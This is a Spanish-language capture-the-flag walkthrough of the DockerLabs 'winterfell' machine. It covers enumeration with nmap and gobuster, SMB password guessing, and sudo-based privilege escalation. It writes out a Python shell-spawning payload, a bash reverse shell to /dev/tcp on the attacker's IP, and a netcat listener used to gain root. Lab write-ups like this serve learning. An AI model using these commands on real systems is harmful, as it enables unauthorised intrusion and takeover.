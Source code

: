 Hola, hoy voy a hacer la maquina de [DockerLabs](https://dockerlabs.es) llamada winterfell

# INTRUSIÓN

Primero iniciamos con un escaneo de puertos usando nmap:

![nmap](imagenes/nmap.png)

Vemos que los puertos abiertos son el 22, 80, 139 y 445, eso significa que tenemos ssh y smb

Puerto 80:

![Puerto80](imagenes/Puerto80.png)

ya que no se ve nada interesante hacemos fuzzing con gobuster:

"gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt":

![gobuster](imagenes/gobuster.png)

Podemos ver que hay un directorio llamado "dragon", entramos y vemos que hay un index a un archivo llamado EpisodiosT1, entramos y vemos lo siguiente:

![directoriodragon](imagenes/directoriodragon.png)

Ya que no hay nada mas intentaremos ver el puerto 443 usando smbmap, entrando de manera anonima no nos dice nada asique probaremos en meter los episodios que nos dieron en un .txt para poder intentar sacar la contraseña intentando con el usuario "jon" que salia en el puerto 80

![Contraseñajon](imagenes/Contraseñajon.png)

Vemos el usuario "jon" con contraseña "seacercaelinvierno", ahora si podemos usar smbmap con el usuario que encontramos "smbmap -H 172.17.0.2 -u jon -p seacercaelinvierno":

![SMB](imagenes/SMB.png)

luego ponemos "smbclient //172.17.0.2/shared -U jon" y nos guardamos el archivo que esta dentro con el comando "get":
![get](imagenes/get.png)

En el archivo vemos lo siguiente:

![prote](imagenes/prote.png)

asique lo metemos en un archivo y usamos el comando "base64 -d archivo.txt" para poder obtener la contraseña, y nos dirá que es "hijodelanister" suponemos que es la del ssh asique intentaremos entrar al ssh con el usuario jon y contraseña "hijodelanister", y entramos.

# ESCALADA

Ya estando dentro somos el usuario jon, por lo que ejecutaremos "sudo -l" para ver que comandos podemos ejecutar con sudo

![sudo](imagenes/sudo.png)

intentaremos modificar el archivo ".mensaje.py" usando "nano" y vemos que no esta el binario, tampoco vim, tendremos que hacerlo con echo "echo -e "import os\nos.system(\"/bin/bash\")" > .mensaje.py" pero primero le cambiamos el nombre del archivo por cualquier otro usando "mv .mensaje.py mensaje". Luego lo ejecutamos con "sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py" y ya seremos el usuario aria.

Como aria ejecutamos "sudo -l" y vemos que podemos ejecutar con sudo:

![ariasudo](imagenes/ariasudo.png)

vemos que podemos ejecutar "cat" y "ls" como daenerys, asique intentaremos hacer un ls a "/home/danerys" y vemos lo siguiente:

##### ![ls](imagenes/ls.png)

Usaremos cat como daenerys y vemos el mensaje

##### ![mensaje](imagenes/mensaje.png)

Asique cambiamos de usuario con "su daenerys" y ponemos la contraseña. Ejecutamos "sudo -l" y vemos que podemos ejecutar un script que esta oculto en la home de daenerys

![daesudo](imagenes/daesudo.png)

asique listamos los directorios con "ls -la" y vamos hasta el script 

![directorios](imagenes/directorios.png)

ya estando ahi vemos lo que tiene el script y lo modificamos para que nos mande una revershell a nuestra ip con "echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/(nuestra ip)/443 0>&1' > .shell.sh". Luego nos ponemos en escucha con netcat en nuestra maquina usando "nc -nlvp 443" y listo, somos el usuario root

![final](imagenes/final.png)

si queremos podemos hacer el tratamiento de la tty para quedar con un terminal mas comodo pero hasta ahi llego yo.



Este es mi primer tutorial y si no se entiende mucho perdon, tampoco soy experto y tambien estoy aprendiendo. Gracias